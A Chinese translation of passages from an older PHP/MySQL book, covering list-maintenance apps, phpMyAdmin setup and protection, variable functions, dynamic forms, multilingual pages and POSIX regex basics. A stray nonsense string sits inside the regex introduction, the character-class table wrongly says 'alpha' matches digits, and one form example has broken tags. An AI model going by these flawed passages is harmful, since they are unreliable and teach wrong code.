这两个动作之间的唯一区别是 `display_heading` 函数的 `$activity` 参数和 `display_form` 函数的 `$action` 参数。由于函数名称的存在，这些动作现在具有自解释性。而且它们非常容易修改。例如，假设你需要在 HTML 表单中添加一个“取消”按钮。只需对 `display_form` 函数进行一次修改即可。在 `display_form` 函数末尾添加以下行，即可为编辑和克隆功能都添加一个“取消”按钮：

```
echo "<form action=\"$PHP_SELF\"";
echo '   method="post">';
echo '     <input type="submit" value="Cancel">';
echo '</form>';
```

添加这些行会生成一个丑陋的网页。把这个表单做得更美观就留给读者作为练习吧。


## 为新数据库表配置应用程序

如果要将应用程序转换为支持维护 `english_month_names` 以外的表，你会怎么做？在不深入细节的情况下，我建议如下操作：

- 复制五个 `.php3` 和 `.inc` 文件，使新文件与新数据库表名对应。
- 修改 `{table_name}.php3` 的初始化部分。特别是需要更改 `$table_name` 和排序变量。
- 修改 actions 文件。你需要更改 `get_record_info` 函数的末尾以适应不同的字段名称。`display_form` 显示的表单及其参数也需要更改。`clone_record` 和 `edit_record` 操作都调用 `display_form`，因此需要修改。其余的更改只是更新动态 SQL 语句以反映新字段。
- 根据需要修改 `{table_name}_dsp_l_rec_hdr.inc`，使用额外的 `td` 标签。
- 根据需要修改 `{table_name}_dsp_l_rec.inc`，使用额外的 `td` 标签。
- 最后，修改 `{table_name}_insert_form.inc`，让用户可以输入新表的信息。

经过一些练习，完成所有这些更改应该需要不到 15 分钟。

## 总结

本章展示了应用程序如何有机地创建，一个部分流向另一个部分。如果这有帮助，可以将每个文件和函数想象成乐高积木。尝试重新体验构建坚实而灵活结构的乐趣。

我们讨论了创建应用程序背后的指导原则，包括尽可能使用变量。如果可能，应避免硬编码表名和字段名。请记住，表名或字段名出现的每一个地方，在将应用程序转换到新表时都需要更改。

我们谈到的另一个指导原则是 *"重复使用，重复使用，重复使用。"* 在合适的地方，应该使用函数使代码自我文档化并隐藏复杂性。

你可能想知道，如果*所有*东西都是变量会怎样？这是否意味着列表应用程序永远不需要转换了？如果列表维护的所有方面都使用变量（表名、字段名、排序顺序），你将拥有终极管理工具！嗯，这样的工具确实存在（它叫做 `phpMyAdmin`），并在下一章中描述。

不幸的是，像 `phpMyAdmin` 这样的通用工具对于最终用户（与开发者相对）来说并不合适。它功能太强大了。而且因为它显示所有表和所有字段，可能会向用户显示太多信息。

总而言之，即使像 `phpMyAdmin` 这样的工具确实存在，你仍然会发现自己在制作自定义列表应用程序，即使没有其他原因，也是为了使用公司徽标和框架，使应用程序导航更容易。

## Subheading_1

## # phpMyAdmin：MySQL 的开源前端

phpMyAdmin 的作者 Tobias Ratschiller 非常友好地撰写了本章的大部分内容。phpMyAdmin 是少数几个基于浏览器的 MySQL 用户界面之一。我认为，如果你想高效工作，安装和使用 phpMyAdmin 至关重要。

在过去几年中，Linux、Apache、MySQL 和 PHP (LAMP) 已成为数据库驱动 Web 应用程序的*事实*标准。MySQL 以其易于设置、快速和可靠的关系数据库系统而闻名；然而，标准发行版只附带命令行管理工具。到目前为止，缺少一个功能强大、舒适且平台独立的用户界面。

phpMyAdmin 的创建——像大多数开源项目一样——是因为作者有个人需求。美好的互联网传统鼓励将此类工具免费提供给更广泛的受众；作为回报，社区贡献错误修复、新功能和技巧。phpMyAdmin 中一些最有用的部分不是作者自己创建的，而是由用户自己实现的。你也受邀参与贡献。

使用 phpMyAdmin 和 Web 浏览器，Web 开发人员可以完成数据库管理员的大部分任务，而无需担心 SQL 语句的语法。除了创建数据库或表、管理键和编辑表内容等标准任务外，phpMyAdmin 还具有一些有趣的功能。它可以创建表或数据库，导入和导出带有*逗号分隔值*（或 *CSV*）的文本文件，并且支持超过 10 种语言。

你可能希望将你的电子邮件地址添加到 http://phpwizard.net/ 的邮件列表中，这样每当有新版本发布时（大约每月一次），你都会收到通知。

## phpMyAdmin 的功能

现在我已经介绍了这个工具，我相信你想知道它真正能做什么。以下是其功能的简要列表：

- 创建和删除数据库
- 创建、复制、删除和修改表
- 删除、编辑和添加字段
- 执行任何 SQL 语句，甚至批量查询
- 管理字段上的键
- 将文本文件加载到表中
- 创建和读取表的转储
- 导出和导入 CSV 数据

### 安装 phpMyAdmin

要安装 phpMyAdmin，请按照以下步骤操作：

1. 将 phpMyAdmin tar 文件放入 `/usr/local/apache/htdocs`。你可以从 `http://phpwizard.net/phpMyAdmin/` 下载当前版本，或从随书附带的 CD 中复制。但请记住，CD 中的 tar 文件不保证是最新版本。

2. `cd /usr/local/apache/htdocs`

   移动到包含 tar 文件的目录。

3. `tar xvzf phpMyAdmin_x.x.x_tar.gz`

   从 tar 文件中提取文件。将创建一个名为 phpMyAdmin 的子目录。

4. `cd phpMyAdmin`

   移动到 phpMyAdmin 目录。

5. 编辑 `/usr/local/apache/htdocs/phpMyAdmin/config.inc.php3` 文件。

6. 在配置文件中搜索以下行，并将以下行中的空字符串替换为你为 MySQL 选择的 root 密码。你可以随时通过在 config.inc.php3 中更改它们来更改用于访问 MySQL 的用户 ID 和密码。

   `$cfgP['password'] = '';`

7. 在配置文件中搜索以下行，并将 "german" 替换为你希望使用的语言。你的选项有："catala"、"chinese_big5"、"chinese_gb"、"danish"、"english"、"french"、"german"、"italian"、"norweigian"、"russian-koi8"、"russian-win1251" 和 "spanish"。

   `require("german.inc.php3");`

8. 保存更改并关闭编辑器。

config.inc.php3 中的所有配置指令在 Documentation.html 文件中均有解释。

## 避免网络蜘蛛

务必保护 phpMyAdmin 目录。默认情况下，它没有任何保护。任何人都不应该读取它，尤其是搜索引擎。尽管我在每个页面上都添加了 "nofollow" 指令，但有些搜索引擎可能会忽略它并仍然跟踪页面上的链接。想想可能出现的后果，比如 AltaVista 跟踪一个名为 "Drop Database!" 的链接。

注意：你可以在 http://www.apacheweek.com/features/userauth 获取 Apache 认证方法的概述。另一个教程位于 http://deepthought.texsci.edu/protected_dirs.html。

许多搜索引擎会在 Web 服务器主目录中寻找一个名为 robots.txt 的文件。如果你还没有创建这个文件（也许来自第 2 章的安装步骤），那么请创建一个名为 /usr/local/apache/htdocs/robots.txt 的文件，其中包含清单 8.1 中的行。

**清单 8.1 robots.txt** - 此文件阻止许多搜索引擎窥探私有目录

```
# robots.txt for {hostname}
User-agent: *
Disallow: /phpMyAdmin/
```

为你需要保持私有的每个目录添加另一行 Disallow。

注意：robots.txt 文件不会添加密码保护。它只是阻止一些搜索引擎查看指定的目录。

### 密码保护 phpMyAdmin 目录

假设你将是唯一访问 phpMyAdmin 的用户，建议你创建一个 .htaccess 文件来保护 phpMyAdmin 目录。大多数情况下，让访客访问如此强大的系统级工具并不是一个好主意。


## 为 phpMyAdmin 目录设置密码保护

HTTP "Basic" 认证（有关认证的详细信息请参阅第13章"认证"）提供了一种简单的方式，可以为网站上的任何目录添加密码保护。Web 服务器负责处理细节问题；你只需维护用户列表，并在每个需要保护的目录中创建 `.htaccess` 文件。

可认证用户列表通过一个与 Apache 捆绑的名为 `htpasswd` 的实用工具来维护。如果你使用 `-c` 选项启动 `htpasswd`，它会在一个新的加密文件中创建新用户。例如，以下命令在名为 `/usr/local/apache/phpMyAdmin.users` 的用户列表中创建一个名为 phpMyAdmin 的用户。注意该文件位于 Web 服务器文档根目录之上以增强安全性。如果文件不在文档根目录或其子目录中，Web 浏览器就无法访问它。以下是创建名为 phpMyAdmin 的用户的命令：

```
htpasswd -c /usr/local/apache/phpMyAdmin.users phpMyAdmin
```

程序随后会提示你指定密码。

你可以根据需要创建任意数量的用户列表文件。然而，大多数网站只需要一个。

创建新的 htpasswd 用户后，你需要创建一个名为 `/usr/local/apache/htdocs/phpMyAdmin/.htaccess` 的控制文件，内容如下：

```
AuthName "phpMyAdmin"
AuthType Basic
AuthUserFile /usr/local/apache/phpMyAdmin.users
require user phpMyAdmin
```

就是这样。现在你应该能够通过 Web 浏览器打开 `http://localhost/phpMyAdmin/` 来启动 phpMyAdmin。在发生其他任何操作之前，你的 Web 浏览器当然会要求输入你刚刚创建的用户名和密码。如果你现在看到了 phpMyAdmin 的欢迎界面，说明一切正常，你可以开始使用 phpMyAdmin 了。

## 使用 phpMyAdmin

如果安装正确，应该显示图 8.1 所示的网页。



图 8.1 phpMyAdmin 初始界面显示你的 MySQL 版本和可用数据库列表。

从初始界面，你可以选择查看 MySQL 的运行时信息和系统变量。你还可以查看 MySQL 运行的进程，并选择终止它们。重新加载 MySQL 的选项在你更改 MySQL 的权限表（如 user 和 host 表）后非常有用，这样 MySQL 会重新读取这些表，使更改生效。

你可以通过点击左框架中的数据库名称来浏览数据库。这会在右框架中显示描述性页面，并在左框架中显示该数据库的表列表。

phpMyAdmin 的使用应该是相当直观的。只需稍微尝试一下；在执行任何危险操作之前，你必须明确确认出现的警告。例如，删除记录总是在执行 SQL **delete** 命令之前要求确认。

## 变量函数：转储表数据

与 MySQL 捆绑在一起，你会找到一个名为 mysqldump 的工具；它将表的结构和数据转储为一系列 SQL 语句。该函数的输出如下所示：

```
INSERT INTO accounts VALUES ('drip-joy','kirsten','mcdonais');
INSERT INTO accounts VALUES ('randy','Randy','Panter');
INSERT INTO accounts VALUES ('temp','temp','temp');
```

在第3章中，你学习了可变变量，我跟你说过我不认为使用它们有多大意义。但你也可以有可变*函数*名，这些有时很方便。mysqldump 用于生成其 SQL 语句的算法就使用了变量函数。

使用变量函数很简单——只需使用语法 `$variable_function_name()`。例如：

```
function foo() {
  return "Hello World";
}

$var_function = "foo";

echo $var_function();
```

这些结构很有用，因为它们让你能够实现自定义*回调函数*。回调函数是在运行时从另一个函数调用的用户定义函数。同意，这听起来不太令人兴奋。但让我们看看一个将表数据转储为 SQL insert 语句的函数的概念。第一种方法是直接遍历表的所有记录，并为每一行打印出 SQL 命令。这当然可行，但功能非常有限：它只是将表的内容打印为 SQL 命令，仅此而已。但 SQL 转储还有更多用途；例如，你可能希望通过自动将表内容复制到另一个数据库服务器来创建每日备份。要完成此任务，你必须编写一个稍微修改版本的转储表函数。更优雅的解决方案是将*应用逻辑*与其产生的*数据*分离。我们只需要返回字符串，让开发人员随意使用它；这样我们就构建了一个通用库。完整函数如下：

```
// 将 $table 的内容作为一系列
// INSERT 语句获取。

// 每行之后，调用一个自定义回调函数
// $handler。该回调函数
// 必须接受一个参数（$schema_insert）。

// 在调用此函数 get_table_content 之前，
// 必须已经建立了与数据库的连接。

function get_table_content($db, $table, $handler) {

    // 如果 SQL 查询不起作用，终止。
    $result = mysql_db_query($db, "SELECT * FROM $table")
      or mysql_die();

    // 为数据库表中的每一行
    // 构建一个 SQL insert 语句。
    while ($row = mysql_fetch_row($result)) {

        $schema_insert = "INSERT INTO $table VALUES(";

        for ($j=0; $j < mysql_num_fields($result); $j++) {

            if (!isset($row[$j])) {
              $schema_insert .= " NULL,";
            }
            elseif ($row[$j] != "") {
              $schema_insert .= " '" .
                                 addslashes($row[$j]) .
                                 "',";
            }
            else {
              $schema_insert .= " '',";
            }
        }
        $schema_insert = ereg_replace(",$", "", $schema_insert);
        $schema_insert .= ")";
        // 这是回调函数调用
        $handler(trim($schema_insert));
    }
    return (true);
}
```

`get_table_content` 的第三个参数是每行处理完成时应调用的函数。要生成转储并输出它，可以使用此处理程序：

```
function my_handler($sql_insert) {
  echo htmlspecialchars("$sql_insert;\n");
}
```

如上所述，返回的字符串也可用于其他任务。例如，如果你想复制表的内容：

```
function my_handler($sql_insert) {
  global $table, $db, $new_name;

  // 将原始表名替换为
  // 新表名。
  $sql_insert = ereg_replace(
      "INSERT INTO $table",
      "INSERT INTO $new_name",
      $sql_insert);

  $result = mysql_db_query($db, $sql_insert)
      or mysql_die();
}
```

看到了吗？我们不需要修改原始函数的一行代码；我们只是提供了不同的逻辑来应用于数据。

与 `mysql_db_query` 函数调用一起使用的 `or mysql_die()` 可能有些令人困惑。`mysql_die` 是一个自定义的 phpMyAdmin 函数，显示 MySQL 生成的最后一条错误消息并退出脚本：它是一个错误处理程序。`mysql_db_query()` 如果在执行 SQL 查询时发生错误则返回 false；在之前的代码示例中，你看到过这样的结构：

```
$result = mysql_query(...);
if (!$result) {
  // 输出错误消息
}
```

逻辑 `or` 结构只是此结构的简写。要理解它，你需要记住第3章中关于逻辑运算符的内容：逻辑 `and` 和逻辑 `or` 运算符都具有短路特性。逻辑 `and` 运算符的目标是确定其两个操作数是否都为真。如果 PHP 确定第一个操作数为 false，则不需要计算第二个操作数。如果第一个表达式（`$result = mysql_query(...)`）因为查询失败而计算为 false，PHP 将计算第二个表达式（`mysql_die()`）——而这就是终止脚本的函数。

## 示例查询，或构建用户可定义页面

由 Chris Jackson 贡献的*示例查询*（*QBE*）工具是创建带有可由用户修改的表单元素页面的绝佳示例。安装 phpMyAdmin 后，从左侧列表中选择一个数据库，然后点击某个数据库表的 select 选项。图 8.2 显示了名为 `select01` 的表的结果页面。当字段填写完毕后，phpMyAdmin 动态构建 SQL select 语句，执行它，然后显示结果。

你通常可以在 `http://phpwizard.net/phpMyAdmin/phpMyAdmin/` 找到在线演示。它让用户以类似于 Access 的 QBE 工具的方式构建 SQL 查询——通过从列表中选择要显示的字段并为其指定值。多个字段和值可以通过 or/and 组合。有趣的部分是字段行数和条件列数可以由用户在运行时增加和减少。这是如何实现的呢？关键在于嵌入表单中的数组。你知道，当你有一个表单元素如

```
<input type="text" name="foo" value="bar">
```

PHP 会自动在表单的处理脚本中将其作为 `$foo` 提供给你。在这种情况下 `$foo` 是一个标量；不过，告诉 PHP 将 `$foo` 视为数组很简单。只需在表单中使用数组表示法

```
<input type="text" name="foo[]" value="bar">
```


图 8.2 初始的按示例查询界面。

如果你在脚本中执行 `print $foo[0]`，输出将是 "bar"。当然，你也可以指定一个文本字面量作为数组键：

```
<input type="text" name="foo[fubar]" value="bar">
```

现在你会使用 `print $foo['fubar']`。表单中的数组对于用户可以选择多个条目的列表特别有用。顺便说一句，如果你在"多选"情况下使用标量变量，只有第一个选中的元素会被存储到变量中，其他元素将被忽略。而使用数组，你可以在一个地方获取所有选中的元素。

因为 QBE 工具使用了相当高级（且难以阅读）的代码，我们将创建一个更简单的例子。假设我们希望用户将她的爱好输入到一个表单中。她应该将每个爱好输入到单独的表单字段中，以便更容易将结果存储到数据库中。因为我们不知道用户有多少个爱好，所以我们需要使表单字段的数量在运行时可调整。

脚本需要检查它是首次被调用还是表单已提交：

```
<?
  if (! isset($hobbies)) {
    // 如果 $hobbies 变量未设置，那么
    // 此脚本以前未被调用过，并且
    // 应只显示一个输入字段。
    $show = 1;
  }
  else {
    // 由于 $hobbies 变量已设置，我们可以通过查看 $hobbies 数组中有多少个条目来确定要显示多少个字段。
    $show = count($hobbies);

    // 现在查看我们是正在添加还是删除。
    if (isset($add)) {
      $show++;
    }
    if (isset($delete) && $show > 1) {
      $show--;
    }

    // 遍历数组，显示每个条目。
    if (isset($submit)) {
      for ($i=0; $i<count($hobbies); $i++) {
        print "$hobbies[$i]<br>";
      }
    }
?>
```

```
<form method="post" action="test.php3">
  <?
    // 第二次遍历数组，为每个条目创建一个输入框。
    for ($i=0; $i < $show; $i++) {
  ?>
  <input type="text" name="hobbies[]"><br>
  <?
    }
  ?>
</form>
```

```
// 表单的其余部分由提交按钮组成。
<input type="submit" name="add" value="Add">
<input type="submit" name="delete" value="Delete"><p>
<input type="submit" name="submit" value="Submit
hobbies">
</form>
```

为多个提交按钮指定不同的名称是根据点击的按钮执行不同操作的最简单方法。脚本使用 `isset()` 检查某个按钮是否已提交；只有被点击的按钮会被设置。

QBE 工具将这些技术应用于更为复杂的页面。

## 创建多语言网站

phpMyAdmin 支持超过 10 种不同的语言，其中包括如图 8.3 和 8.4 所示的俄语和中文。在本节中，我将向你展示两种实现语言无关 Web 应用程序的不同方法。

图 8.3 中文界面的 phpMyAdmin。

## 图 8.4 俄语界面的 phpMyAdmin。

创建支持两种或更多语言的 Web 应用程序的最大问题是什么？你可能只是简单地复制整个项目并用你的翻译替换所有文本。但如果你想更改应用程序的布局怎么办？如果你发现一个错误怎么办？你将不得不更改每个单独的副本。对于 2 种语言来说，这可能不是什么大问题，但当有 10 种语言时，就变成了真正的难题。所以，再次，我们需要找到一种方法将应用程序的逻辑（代码）与布局（HTML）分离。

你将使用的方法确实取决于你的具体情况：你的应用程序有多复杂，字符串更改的频率，你是否需要动态切换到不同的语言。一种简单的方法（phpMyAdmin 使用的就是这种）——将你的应用程序使用的所有字符串写入一个单独的文本文件，并在你的应用程序内部引用这些字符串变量，而不是直接输出文本。phpMyAdmin 的语言文件看起来像这样：

```
$strAPrimaryKey = "A primary key has been added on ";
$strAccessDenied = "Access denied";
$strAction = "Action";
$strAddNewField = "Add new field";
```

在应用程序本身中，phpMyAdmin 使用这些预先定义的字符串来显示文本：

```
<input
  type="submit"
  value="<?php print $strAddNewField;?>">
```

在其配置文件 (`config.inc.php3`) 中，phpMyAdmin 定义了使用哪种语言，但使其在运行时可配置相当容易。例如，将语言与 HTML 表单上的按钮关联起来，以便当按钮被点击时，phpMyAdmin 使用的语言发生变化。另一个优点是语言文件可以包含任何编码，例如简体中文或俄语 Koi-8。如果你在英语系统上运行该应用程序，你可能需要向 HTML 文件添加一个指令（一个 HTML meta 标签）来告诉浏览器页面使用的编码。使用简体中文，你需要添加

```
<meta
  http-equiv="Content-Type"
  content="text/html; charset=gb_2312-80">
```

当然，这也可以通过 HTTP Header 以编程方式设置：

```
header("Content-Type: text/html; charset=gb_2312-80");
```

这种方法需要很强的自律性，但对于中小型应用程序效果相当好。然而，对于包含大量文本的网站来说，它变得不切实际。在这种情况下，定义 HTML 模板要有效得多。模板是包含任何语言相关字符串占位符的纯文本文件；一个普通 HTML 页面的模板可能看起来像这样：

```
<HTML>\<BODY BGCOLOR=BLACK TEXT=WHITE>
<HEAD><TITLE>{PAGE_TITLE}</TITLE></HEAD>
<H1>{PAGE_TITLE}</H1>
{PAGE_CONTENT}
</BODY>
</HTML>
```

这是一种比前一种更优雅的方法，因为我们有了更严格的分离：PHP 代码仅在后端用于用实际数据替换占位符，而不在模板中使用。

当然，你可以使用自己的代码进行这种替换；例如，你可以使用 `str_replace()`。但你不必重新发明轮子。一个名为 class.FastTemplate 的模板类现成可用（来自 http://www.thewebmasters.net/php/）。使用这个类将上述模板转换为有意义的输出看起来像这样：

```
<?php
  // 包含 FastTemplate 的源代码
  include "class.FastTemplate.php3";

  // 创建类的一个新实例
  $tpl = new FastTemplate(".");

  // define() 函数指定要使用的模板文件。
  $tpl->define(array(template => "template.tpl"));

  // 将实际内容分配给占位符
  $tpl->assign(PAGE_TITLE, "FastTemplate");

  $content = "FastTemplate 类的测试页面。";
  $tpl->assign(PAGE_CONTENT, $content);

  // 解析模板（为了性能，这一步一次性完成）
  $tpl->parse(MAIN, "template");

  // 输出解析后的模板
  $tpl->FastPrint(MAIN);
?>
```

FastTemplate 具有比上面所示更高级的功能，但我将它们作为练习留给你去探索。FastTemplate 网站 (http://www.thewebmasters.net/php/) 上也提供了一个全面的手册页面。

## 常见问题

### 我无法编辑表的内容，即使 README 说这是 phpMyAdmin 的一个功能。

phpMyAdmin 仅在表包含主键或唯一键时才允许编辑表的内容。

### 我无法向表中插入新行——MySQL 报告 SQL 错误。

仔细检查 SQL 错误。我发现许多程序员指定了错误的字段类型。其他常见错误包括：

- 使用 `VARCHAR` 时没有指定大小参数
- 使用 `TEXT` 或 `BLOB` 时指定了大小参数

另外，请查看 MySQL 手册中的语法章节，以确认你的语法正确。

### phpMyAdmin 无法连接到 MySQL。是什么问题？

要么是你的 PHP 配置有误，要么是你的用户名/密码错误。尝试编写一个使用 `mysql_connect` 函数的简单 PHP 脚本。如果那不起作用，请使用 `phpinfo` 函数确认 PHP 是否已正确安装。

### 防止恶意访问 phpMyAdmin 的最佳方式是什么？

这取决于你的系统。如果你运行的服务器无法被其他人访问，那么使用 Web 服务器自带的目录保护功能就足够了（例如，使用 Apache 你可以使用 `.htaccess` 文件）。如果其他人可以通过 Telnet 访问你的服务器，那么将 MySQL 密码以明文形式存储在你的 `config.inc.php3` 文件中不是一个好主意。在这种情况下，你应该使用 phpMyAdmin 的高级身份验证功能。

## 总结

在本章中，你学习了如何设置 phpMyAdmin，一个 MySQL 的图形前端（使用 PHP 编写）。我们讨论了 phpMyAdmin 使用的三种技术：变量函数、动态用户可定义页面和语言无关应用程序。变量函数对于实现回调函数以分离应用程序逻辑和数据非常有用。当 Web 开发者不知道

用户所需字段的精确数量。随着越来越多非英语用户每天接入互联网，为他们提供本地语言网站变得愈发重要。PHP对此大有裨益；实现多语言网站的一个高效方法是将所有字符串外部化到单独文件或使用HTML模板。

*Tobias Ratschiller*是意大利的*新媒体顾问*，专注于创建大规模动态网站。他曾为全球一些知名网站提供咨询和实施工作，并为多部PHP相关著作和文章撰稿。目前，他与Till Gerken合著一本名为*《PHP高级Web应用开发》*的书，该书将于2000年4月由*New Riders*出版。更多关于本书的信息将在其网站 http://phpwizard.net 上提供。可通过 tobias@phpwizard.net 联系Tobias。

# 模式匹配

模式匹配使用正则表达式来查找文本字符串中的模式。正则表达式使用元字符序列表示特殊字符和字符类，例如 `\n` 代表换行符。

以灵活方式处理文本的能力是高级计算机语言的标志之一。语言应提供解析文本的能力，换句话说，找到字符串中你感兴趣的部分。例如，你应该能够从全名中提取一个人的名字，或从电话号码中提取区号。某天你可能需要在数组中搜索所有以字母"R"或"S"开头的条目。这些需求以及更多需求都可以通过PHP来满足。

你会找到模式匹配的两种用途。你可以搜索模式，或者搜索模式并用你选择的文本替换匹配的文本。PHP有两组模式匹配函数，一组基于POSIX风格的正则表达式，另一组基于Perl风格的正则表达式。Perl风格函数在PHP 3.0.9版本中添加；如果你使用的是更早版本，请专注于POSIX风格函数（或者升级！）。

MySQL也提供了一个用于模式匹配的 `regexp` 函数。`regexp` 函数将在接下来的"MySQL regexp函数"部分讨论。

## 正则表达式定义

> 元字符是除了字面意义外还具有额外含义的字符。

正则表达式描述了你需要查找的文本。你不是搜索"Alice"，tragmdzh28, wdbm5h9a CamelelB anf "AFWdy9" YHu，而是可以搜索"所有以字母a开头的名字"。模式的所有匹配能力都基于*元字符*的概念。例如，句点字符在模式中可以有两个含义。首先，它可以用于匹配搜索字符串中的句点字符——这是它的字面含义。其次，它可以用于匹配搜索字符串中除换行符外的任何字符——这是它的*元含义*。

创建模式时，元含义是默认的。如果你打算匹配字面字符，需要在元字符前加反斜杠。（你可能记得反斜杠用于创建转义序列。）

模式可以包含原子、分支和括号表达式。你可以根据需要组合这些组件，这使你能够匹配几乎所有类型的字符串。你可能记得第4章"控制你的程序"中关于表达式的概念，以及简单表达式如何组合形成更大的表达式。这种小项组合形成大项的概念适用于模式。

原子是需要匹配的单个项目。像表达式一样，原子可以相互组合形成更大的原子。原子后面可以跟以下四个修饰字符形成片段：

-   **星号**——`*` 字符在原子在目标字符串中出现零次或多次时匹配。在模式中使用星号时要小心。因为原子使用零次时也会被找到，所以像"a*"这样的模式总是匹配。通常，`*` 修饰符用于更复杂的模式。例如，"ab*c"匹配"ac"、"abc"、"abbc"以及任何其他数量的b被a和c包围的情况。

-   **加号**——`+` 字符在原子出现一次或多次时匹配。

-   **问号**——`?` 字符在原子出现零次或一次时匹配。

-   **量词**——量词表示有三种形式。`{n}` 表示原子应精确匹配n次。`{n,}` 表示原子必须匹配至少n次。`{n,m}` 表示原子必须匹配至少n次且不超过m次。

分支用于匹配一个或多个模式。例如，两个片段（"a+"和"z+"）可以组合（"a+|z+"）来匹配包含一个或多个a字符或一个或多个z字符的字符串。像计算中的许多定义一样，分支可能令人困惑，因为这个术语可以指单个片段（"a+"）或片段的组合（"a+|z+"）。

## 括号表达式

括号表达式是由方括号包围的字符序列。每个括号表达式通常匹配字符类——代表一类字符的词。例如，所有大写字符是一个类。表9.1显示了字符类的示例。

### 表9.1 POSIX字符类

| 字符类 | 描述 |
| --- | --- |
| alpha | 匹配所有字母数字字符。换句话说，从零到九以及从a到z。 |
| blank | 匹配空格和制表符字符。 |
| cntrl | 匹配所有ASCII值小于32的字符。有关这些字符的信息，请参见附录B"ASCII表"。 |
| lower | 匹配所有小写字符。 |
| space | 匹配空格、制表符、换行符、换行符和换页符。有关这些字符的信息，请参见附录B"ASCII表"。 |
| upper | 匹配所有大写字符。 |
| xdigit | 匹配十六进制数字中所有有效的数字。 |

你可以在 http://ftpsearch.lycos.com/help/regexp-manpage.html 找到关于括号表达式的更详细信息。

## 元字符

如前所述，元字符在模式匹配中广泛使用。表9.2显示了可用于模式的元字符。

### 表9.2 模式的元字符

| 元字符 | 元含义 |
| --- | --- |
| ^ | 这个元字符——脱字符——匹配字符串的开头。它是两个模式锚点之一——另一个锚点是$。 |
| . | 这个元字符匹配除换行符外的任何字符。 |
| $ | 这个元字符匹配字符串的结尾。它是两个模式锚点之一——另一个锚点是^。 |
| \| | 这个元字符——称为交替——允许你指定两个可能导致匹配成功的值。例如，`/a\|b/` 表示目标参数必须包含"a"或"b"字符才能匹配成功。交替字符两侧的原子称为分支。 |
| * | 这个元字符表示其左边的原子应匹配零次或多次，才能被评估为真。 |
| + | 这个元字符表示其左边的原子应匹配一次或多次，才能被评估为真。 |
| ? | 这个元字符表示其左边的原子应匹配零次或一次，才能被评估为真。 |
| {n, m} | 花括号指定量词，或其左边的原子应匹配的次数。`{n}` 表示应精确匹配n次。`{n,}` 表示必须匹配至少n次。`{n, m}` 表示必须匹配至少n次且不超过m次。 |
| [ ] | 括号表达式将字符序列与目标字符串中的单个字符进行匹配。例如，`"[abc]"` 如果目标字符串包含任何"a"、"b"或"c"则评估为真。括号表达式是交替元字符的更具可读性的替代方案。 |


| 元字符 | 元意义 |
| --- | --- |
| `(piece)` | 括号影响模式的评估顺序，并充当一种记忆形式。与括号内内容匹配的文本可以存储在变量中以供后续处理。 |
| `\` | 此元字符会“转义”后续字符。这意味着该字符通常具有的任何特殊含义将被忽略。例如，如果你需要在模式中包含星号，必须使用 `\*` 来避免 PHP 将 `*` 解释为元字符。使用 `\\` 在模式中指定反斜杠字符。 |

## POSIX 风格函数

POSIX 是 *Portable Operating System Interface for UNIX*（UNIX 可移植操作系统接口）的缩写。它是一系列 IEEE 和 ISO 标准，定义了程序与操作系统之间的接口。使用这些标准有助于程序员创建可移植到大多数 UNIX 变体以及某些 Windows 版本的程序。POSIX 的官方网站是 `http://anubis.dkuug.dk/JTC1/SC22/WG15/`。POSIX 标准由便携式应用标准委员会（PASC）制定，其网站位于 `http://www.pasc.org/`。

PHP 有六个与模式匹配相关的函数：

- **ereg** — 如果其模式参数匹配，则返回 true，否则返回 false。
- **eregi** — 此函数与 `ereg` 相同，但忽略大小写区分。
- **ereg_replace** — 此函数替换与模式匹配的文本。
- **eregi_replace** — 此函数与 `ereg_replace` 相同，但忽略大小写区分。
- **split** — 此函数根据其分隔符参数将字符串拆分为多个部分。
- **sql_regcase** — 此函数根据其参数创建括号表达式，以便可以生成不区分大小写的 SQL 语句。例如，`sql_regcase("ab")` 返回 "[aB][bB]"。我倾向于使用大多数数据库支持的 SQL `upper` 函数。在这种情况下，我更喜欢使用 `select * from customers where UPPER(first_name) = 'DAVID'`，而不是 `select * from customers where first_name = '[dD][aA][vV][iI][dD]'`。在我看来，使用 SQL `upper` 函数更具可读性。

## ereg 和 eregi

### 语法

```
int ereg(string PATTERN, string TARGET, [array MATCHES]);

int eregi(string PATTERN, string TARGET, [array MATCHES]);
```

### 描述

`ereg` 在 TARGET 参数中搜索与 PATTERN 匹配的内容。`eregi` 执行相同的搜索，但忽略大小写区分。

如果提供了第三个参数，则匹配的文本将被放入其第一个元素中，并通过 `$matches[0]` 访问。括号部分的匹配项作为指定数组的元素存储。第一个匹配的子字符串放入 `$matches[1]`。第二个匹配的子字符串放入 `$matches[2]`。依此类推。当然，你可以使用任何数组名称作为第三个参数；`$matches` 只是我的偏好。

### 返回值

如果在 TARGET 中找到 PATTERN，则返回 true，否则返回 false。如果发生错误，函数返回 false。

### 示例

以下示例代码将电话号码解析为三个部分（即区号、交换局和号码），并显示整个电话号码、区号和交换局。单独的变量保存识别各部分的模式。这些变量的使用使模式更易于理解。

```
$target = "David Medinets,973-927-7670";

// 将区号匹配为连续的三个数字。
$pat_area   = '([0-9][0-9][0-9])';

// 使用边界匹配交换局。
$pat_exchange = '([0-9]{3})';

// 使用字符类匹配号码。
$pat_number   = '[[:digit:]]{4}';

// 将三个模式组合成一个。
$pattern = "$pat_area-$pat_exchange-$pat_number";

if (ereg($pattern, $target, $matches)) {
    echo "Number: $matches[0]<br>";
    echo "Area Code: $matches[1]<br>";
    echo "Exchange: $matches[2]<br>";
}
else {
    // 处理 'number not found' 错误。
}
```

此示例看起来很简单，但如果你需要匹配使用句点而非破折号的电话号码会怎样？例如，973.927.7670 在某些国家是有效的电话号码。如果你选择使用括号表达式如 `[-.]` 来测试是句点还是破折号，使用此模式

```
$pattern = "$pat_area[-.]$pat_exchange[-.]$pat_number";
```

你会得到如下所示的错误消息：

```
Parse error: parse error, expecting `STRING' or
'NUM_STRING' or ''$'' in {file} on line 16
```

该错误是由 PHP 的变量插值将 `"$pat_area["` 文本读取为数组变量的开头引起的。相反，请尝试使用变量来保存括号表达式，如下所示：

```
$d = '[-.]';
$pattern = "$pat_area$d$pat_exchange$d$pat_number";
```

## ereg_replace 和 eregi_replace

### 语法

```
string ereg_replace(
    string PATTERN,
    string REPLACEMENT,
    string TARGET
);

string eregi_replace(
  string PATTERN,
  string REPLACEMENT,
  string TARGET
);
```

### 描述

`ereg_replace` 在 TARGET 参数中搜索与 PATTERN 匹配的内容，并将任何匹配的文本替换为 REPLACEMENT。`eregi_replace` 执行相同的任务，但忽略大小写区分。

模式可以包含带括号的子字符串，就像 `ereg` 函数一样。但是，它们的使用略有不同。你可以使用 `\\n` 表法来引用每个匹配的子字符串，其中 n 指第 n 个带括号的子字符串。最多可以使用九个子字符串。

### 返回值

